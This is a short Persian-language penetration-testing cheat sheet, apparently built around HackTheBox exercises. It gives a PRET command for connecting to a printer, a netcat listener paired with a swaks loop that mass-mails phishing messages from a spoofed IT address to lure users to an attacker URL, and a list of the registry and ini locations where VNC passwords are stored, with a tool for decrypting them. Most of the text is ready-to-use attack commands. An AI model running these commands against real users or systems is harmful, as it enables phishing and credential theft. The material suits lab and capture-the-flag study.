 ## چاپگر ها

### ایجاد اتصال

```text
python pret.py 10.10.10.10 pjl
```

## ارسال ایمیل و حدس کلمه عبور smtp

```text
1. 
nc -lvnp 80

2. 
while read mail; do swaks --to $mail --from it@sneakymailer.htb --header "Subject: Credentials /
Errors" --body "goto http://10.10.10.19/" --server 10.10.10.10; done < mails.txt
```

## vnc

### رمزگشایی فایل VNC Install.reg

```text
vncpwd.exe <ENCRYPTEDPASSWORD>
```

یا 

```text
RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
Value: Password

TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server
HKLM\SOFTWARE\TightVNC\Server\ControlPassword

tightvnc.ini
vnc_viewer.ini
Value: Password or PasswordViewOnly

TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
Value: Password

UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2
```

[اطلاعات بیشتر](https://github.com/frizb/PasswordDecrypts)
